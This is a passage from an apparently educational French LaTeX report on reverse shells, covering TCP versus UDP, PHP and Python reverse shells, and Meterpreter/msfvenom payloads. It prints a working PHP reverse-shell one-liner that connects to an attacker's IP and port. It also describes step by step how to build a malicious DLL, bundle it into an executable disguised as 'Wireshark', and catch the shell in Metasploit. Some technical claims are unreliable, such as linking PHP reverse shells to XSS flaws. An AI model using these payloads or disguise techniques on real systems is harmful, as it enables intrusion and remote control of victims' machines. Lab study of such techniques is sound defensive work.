Le protocole TCP est souvent associé au protocole UDP car ils sont presque similaires. La plus grosse différence, qui est majeure, est que TCP est en mode connecté et UDP en mode non connecté. Le mode connecté est un mode d'envoi et de réception de fichier qui a un " accusé-réception". Ceci signifie que le message est éparpillé dans le réseau en plusieurs paquets, avec un numéro qui leur est propre, et arrive chez le destinataire dans un ordre non défini. Cette méthode nécessite donc au destinataire de recomposer le message et de vérifier que tous les paquets sont bien arrivés. Si ce n'est pas le cas, ce dernier va pouvoir demander à l'envoyeur de lui renvoyer le ou les paquets manquants. C'est ce que l'on nomme le mode connecté. Le protocole UDP va se baser sur le mode non connecté. Cette méthode est l'équivalent du temps réel et se doit donc d'avoir une interaction directe entre les deux machines. Le message ne pourra donc pas être découpé ce qui implique un renvoi complet de ce dernier s'il est incomplet à la réception. Le protocole UDP est principalement utilisé dans les applications en temps réels car son faible temps de latence permet d'accéder aux contenus rapidement. Cependant, en ce qui concerne le reverse-shell, UDP n'est vraiment pas conseillé car ce protocole, ne vérifiant pas l'intégrité des trames, pourrait nous faire penser que nous nous sommes trompés alors que c'est UDP qui n'est pas fiable. C'est pour cette raison que TCP sera utilisé en reverse-shell.\\

 \textbf{PHP}\\

Le PHP est un langage de programmation Web couramment utilisé pour dialoguer avec la base de données ainsi que pour sécuriser les sites. A titre d'exemple, le HTML va permettre de créer un formulaire que l'utilisateur va remplir. Le PHP sera présent pour vérifier que toutes les conditions ont été respectées afin de valider le formulaire. On s'aperçoit donc que l'utilisateur communique directement avec le PHP. Il y donc des possibilités de réaliser des reverse-shell dans ce langage.\\
Nous pouvons tester le code PHP en localhost sur la \textbf{figure \ref{fig:phpreverse}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/PHP/php-reverse.PNG}
  \caption{PHP-reverse}
  \label{fig:phpreverse}
\end{figure}

Le code PHP est le suivant :
\setlstjava
\begin{lstlisting}
     php -r '\$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{lstlisting}

Regardons ensemble cette commande afin de la comprendre :

\begin{itemize}
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande.
    \item'\$s=fsockopen("<IP>",<PORT>);' cette commande a pour but, à travers la variable \$s, d'ouvrir un socket grâce à la fonction fsockopen().
    \item 'exec ()' est une fonction PHP permettant d'écrire dans le cmd.
\end{itemize}

Il est donc assez facile de réaliser un reverse-shell en PHP si l'administrateur web n'a pas réaliser correctement son travail au niveau des failles XSS.\\

 \textbf{Python}\\

Au cours de cette partie, nous allons nous pencher sur le reverse-shell via le langage Python. Ce langage, basé principalement sur le C, se démocratise de plus en plus aujourd'hui. Certes, ce langage est lent, mais il va nous permettre grâce à sa grande ouverture d'exploiter toutes les failles informatiques.\\

Voyons un cas concret sur un reverse en localhost :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/Python/python-reverse.PNG}
  \caption{Python-reverse}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir ci-dessus, le code est assez important. C'est pourquoi il est plus simple de le visualiser sous un éditeur de texte :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/Python/python_code.PNG}
  \caption{Python-reverse}
  \label{fig:courbe-tikz}
\end{figure}

Nous comprenons alors qu'un script peut être créé assez facilement afin d'invoquer un reverse-shell chez une cible. Le code peut être lancé soit directement dans un invite de commande soit en invoquant un programme existant chez la cible comme nous l'avons fait ci-dessus.





%\newpage

\subsection{Meterpreter}

Meterpreter est un outil dépendant de Metasploit ayant pour but de créer des payloads assez particuliers. En effet, ces payloads, cryptés ou non, permettent de mettre en place un reverse-shell entre nous et notre cible. Nous allons donc dans un premier temps découvrir les injections DLL puis, nous ferons un comparatif entre les reverse shell "classiques" et ceux de Meterpreter.


\subsubsection{Injections DLL}

Les fichier DLL (Dynamic Link Library) sont comme des fonctions utilisées par un programme principal. Lors de son exécution, seul le programme principal est visible dans le gestionnaire des tâches ce qui rend sa détection presque impossible. De cette manière, nous allons même pouvoir appliquer un DLL à un programme existant et ayant les droits administrateur. Ainsi, le retour de ce payload à notre écran nous fournira l'accès administrateur de la cible.\\
Nous allons donc vous montrer la conception d'une injection DLL.\\

 \textbf{Mise en place d'une injection DLL}\\

Meterpreter va donc nous permettre la création de ces fichiers malicieux. Il faut cependant utiliser Msfvenom qui contient Meterpreter. Nous allons réaliser un reverse-shell sur un Windows server 2019 au cours de cette partie. Commençons par créer le fichier .dll:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/msfvenom.PNG}
  \caption{Création du .dll}
  \label{fig:courbe-tikz}
\end{figure}

Comme vous avez pu le voir, la commande est très longue mais facile à comprendre. Tout d'abord, l'argument "-p" va vous permettre de choisir le payload que vous souhaitez utiliser. N'hésitez pas à jeter à coup d'oeil à la liste de ses 556 payloads via la commande :
\begin{center}
    \textbf{msfvenom  - -list payloads}
\end{center}
Cette liste vous montrera que les possibilités sont presque infinies car il existe même des attaques basées sur VNC ! Après avoir choisi son payload, il faut lui indiquer notre IP ainsi que notre port d'écoute. Pour terminer, nous indiquons la plateforme d'attaque, le format du fichier et enfin son nom. Il est à notifier que le "R" n'est en aucun cas obligatoire. Dans notre cas, nous n'avons pas choisi d'utiliser un encoder car nous avons désactivé l'anti-virus de la machine cible. N'hésitez pas encore une fois à lister les encoders afin d'en choisir un qui vous convienne.
Ensuite, nous allons créer un programme qui exécutera ce fichier .dll :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/bat.PNG}
  \caption{Fichier .bat}
  \label{fig:courbe-tikz}
\end{figure}

Nous pouvons à pésent utiliser Winrar pour compresser ces deux fichiers sous un .exe que l'on nommera Wireshark par exemble :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/wireshark.PNG}
  \caption{Wireshark.exe}
  \label{fig:courbe-tikz}
\end{figure}

\vspace{2cm}
Revenons sur Metasploit afin de lancer l'écoute du reverse-shell lors de l'exécution de Wirshark.exe sur Windows server:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/msf.PNG}
  \caption{Ecoute lors de l'exécution du fichier}
  \label{fig:courbe-tikz}
\end{figure}

Nous nous retrouvons bien dans Meterpreter qui va nous proposer plusieurs champs d'actions grâce à son reverse-shell. En effet, Meterpreter nous permet de manipuler les fichiers, le réseau, les périphériques ainsi que le système en lui même.\\



Il existe trois type de payload dans Meterpreter :

\begin{itemize}
    \item \textbf{Single Payload :} Permettent d'exécuter une tâche spécifique, ex: lancement d'une calculatrice
    
    \item \textbf{Stager Payload :} Payload par étage, l'étage 0 va permettre la création du reverse shell et le stage 1 va permettre l'injection DLL vers la victime.
    \item \textbf{Stageless payload:} Payload regroupant la totalité des outils permettant l'exploitation de la victime.
\end{itemize}

Nous verrons simplement les Stager et Stageless payload puisqu'un single payload est simplement l'exécution d'un programme sur la machine cible. 

\subsubsection{Stager Payload}

Les stager payload sont des payload à étages comme son nom l'indique. En effet, leur avantage est d'être moins lourd en mémoire puisqu'une fois leur exécution faite, ils vont télécharger un autre payload qui permettra de faire l'injection DLL avec les librairies utiles pour le fonctionnement de Meterpreter.\\



 Voici un schéma du fonctionnement:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/images/Reverse_shell-meterpreter/stagepayload.png}
  \caption{Fonctionnement d'un Stager payload. Source: \url{secvinfo.com}}
  \label{fig:courbe-tikz}
\end{figure}


Pour utiliser ce type de payload avec msfvenom il faut utiliser le paylaod \textbf{windows/meterpreter/reverse\_tcp}. Les "slash" sont très important puisqu'ils permettent de différencier l'utilisation d'un stager d'un stageless payload.\\ De plus, l’avantage principale du staged payload c’est qu’il permet d’exécuter l’exploit directement dans la mémoire de la machine victime laissant ainsi très peu de traces sur le disque dur. Il y a également un chiffrage des données entre l'attaquant et la victime. Cependant, avec un stager payload, le chiffrement du trafic entre l’attaquant et la victime ne débute qu’après le téléchargement du second payload.

\subsubsection{Stageless Payload}

Dans cette catégorie, le payload est envoyé entièrement sur la machine de la victime. Celui-ci contient tout ce qui est nécessaire pour obtenir un reverse shell vers la machine de l’attaquant. Aucun transfert supplémentaire à partir de la machine de l’attaquant n’est nécessaire.\\

Voici un bref schéma de fonctionnement de ce payload:


\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/images/Reverse_shell-meterpreter/Untitled Diagram(4).png}
  \caption{Fonctionnement d'un Stageless payload}
  \label{fig:courbe-tikz}
\end{figure}

 Avec cette catégorie de payload, le code malveillant est envoyé entièrement sur la machine de la victime.
Le chiffrement du trafic entre la victime et l’attaquant est lancé dès la première connexion.
Les stageless payloads peuvent être utiles notamment dans des situations où la cible se trouve derrière un proxy qui bloque le téléchargement de fichiers exécutables.\\
Nous allons à présent comparer les payloads exploités par Meterpreter et les reverse-shell que nous vous avons présentés plus haut.

\subsubsection{Comparaison de scripts}

Comme vous l'aurez compris, les fichiers écris par Msfvenom puis exploités par Meterpreter sont bien des reverse-shell. Nous allons donc observer la différence de code entre un fichier Msfvenom et ceux vu dans la section précédente.\\

Voici un tableau comparatif des deux scripts:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Reverse_shell-meterpreter/payload.PNG}
  \caption{Tableau comparatif}
  \label{fig:courbe-tikz}
\end{figure}